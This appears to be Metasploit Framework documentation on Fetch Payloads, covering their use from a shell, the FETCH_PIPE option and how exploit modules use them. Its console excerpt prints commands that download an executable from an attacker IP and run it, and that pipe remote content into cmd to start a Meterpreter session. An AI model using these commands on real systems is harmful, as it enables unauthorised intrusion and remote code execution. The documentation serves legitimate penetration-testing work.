 ## Using Fetch Payloads on the Fly
One really nice thing about Fetch Payloads is that it gives you the ability to execute a binary payload very quickly,
without relying on a session in framework or having to get a payload on target.  If you have a shell session or even a
really odd situation where you can execute commands, you can get a session in framework quickly without having to upload
a payload manually.  Just follow the steps above, and run the provided command.  Right now, the only thing we serve are
Framework payloads, but in the future, expanding to serve and execute any executable binary would be relatively trivial.

## Fetch Pipe
If space is at a premium, you can use the `FETCH_PIPE` option.  When using `FETCH_PIPE`, the fetch server hosts two
resources: the original binary and then the generated fetch command.  In the place of the original command, the command
generated will be a much smaller command to download the original command and pipe it into the shell.
The following example shows both the original command to download and execute the binary and the command to pipe the
original fetch command directly to the shell.  Since this requires two downloads, it is less stealthy, but the
command to run on the target is significantly shorter.
``` msf
msf payload(cmd/windows/http/x64/meterpreter_reverse_tcp) > to_handler
[*] Command served: curl -so %TEMP%\DpRdBIfeyax.exe http://10.5.135.117:8080/zw3LGTh9FtaLJ4bCQRAWdw & start /B %TEMP%\DpRdBIfeyax.exe

[*] Command to run on remote host: curl -s http://10.5.135.117:8080/test|cmd
```

## Using it in an exploit
Using Fetch Payloads is no different than using any other command payload.  First, give users access to the Fetch
payloads for a given platform by adding a target that supports `ARCH_CMD` and the desired platform, either `windows` or
`linux`.  Once the target has been added, you can get access to the command by invoking `payload.encoded` and use it as
the command to execute on the remote target.

### Example paired with CmdStager
There is likely to be some overlap between fetch payloads and command stagers.  Let's talk briefly about how to support 
both in an exploit.  Please see the documentation on Command Stagers for required imports and specifics for command
stagers.  in this case, I'm only documenting the changes to make so that fetch payloads will work alongside command
stagers or to use fetch payloads in the style of command stagers, which I suggest you do.
